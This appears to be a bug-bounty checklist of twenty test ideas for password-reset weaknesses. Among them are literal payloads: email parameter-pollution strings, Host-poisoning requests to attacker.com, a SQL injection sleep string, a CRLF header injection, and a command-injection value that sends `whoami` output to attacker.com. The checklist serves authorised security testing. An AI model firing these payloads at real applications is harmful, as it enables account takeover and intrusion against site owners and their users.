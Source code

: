 # Broken Authentication
- [Reset Password functionality](#reset-password-functionality)


## Reset Password functionality
1. Password Reset Poisoning
    - Investigate whether the password reset functionality is vulnerable to poisoning by manipulating parameters in the request.
2. HTTP Parameter Pollution
    - Test for parameter pollution by using multiple formats:
```
email=victim@gmail.com&email=attacker@gmail.com
email[]=victim@gmail.com&email[]=attacker@gmail.com
email=victim@gmail.com%20email=attacker@gmail.com
email=victim@gmail.com|email=attacker@gmail.com
{"email":"victim@gmail.com","email":"attacker@gmail.com"}
{"email":["victim@gmail.com","attacker@gmail.com"]}
```
- Verify if it’s possible to reset the victim's password using a reset link sent to the attacker's inbox.
3. IDOR (Insecure Direct Object Reference)
    - Examine the reset link for parameters vulnerable to IDOR.
    - Use tools like ParamMiner to discover hidden or additional parameters. For example, appending parameters like uid from a profile update request.
4. Cryptographic Weakness
    - Check for predictable password reset tokens:
        - Analyze if the token generation logic can be guessed or reversed.
5. Token Leakage
    - Via Referrer Header: Open the reset link and click external links to see if the token is leaked.
    - In Responses or JS Files: Search for the reset token in API responses or JavaScript files.
6. Session Management
    - Verify if the session/token persists after resetting the password.
7. Password Policy Testing
    - Try weak or edge-case passwords:
        - Use only spaces as the password.
    - Check for acceptance of excessively long passwords to test for application-level DoS.
8. Multiple Token Handling
    - Request two reset links and verify if older tokens remain valid.
9. Password Reset Link Manipulation
- Test various link formats:
```
POST https://attacker.com/resetpassword.php HTTP/1.1
POST @attacker.com/resetpassword.php HTTP/1.1
POST :@attacker.com/resetpassword.php HTTP/1.1
POST /resetpassword.php@attacker.com HTTP/1.1
```
10. Injection Attacks
    - SQLi: `test@test.com'+(select*from(select(sleep(2)))a)+'`
    - CRLF Injection: `/resetpassword?%0d%0aHost:%20attacker.com`
    - Command Injection: `email=hello@'$(whoami)'.attacker.com`
11. User Enumeration
    - Check if errors or responses reveal whether an account exists.
12. Edge Cases
    - Register an account with the victim's username and include trailing or leading whitespace (e.g.,'tuhin1729' ,' tuhin1729'). Use the token to reset the victim's password (e.g., CVE-2020-7245).
13. 2FA/OTP Bypass
    - If OTPs are sent, employ known 2FA bypass techniques to verify security.
14. Homograph Testing
    - Use homographs (e.g., "victim@gmail.com" with visually similar Unicode characters) during registration and attempt password reset.
15. Request Modifications
    - Change the HTTP request method and Content-Type. Observe how the application handles unexpected formats.
16. Parameter Reflection
    - Check if parameter values (e.g., email) reflect in the response. Test for HTML Injection (HTMLi).
17. XML External Entity (XXE)
    - If the reset request accepts XML input, test for XXE vulnerabilities.
18. Rate Limiting
    - Test for missing rate limits by repeatedly triggering email notifications.
19. Advanced Attacks
    - Check whether any param value is reflecting in the email. Now try XSS - SSTI
20. Post-Reset Vulnerabilities
    - Confirm if 2FA is auto-disabled after a password reset.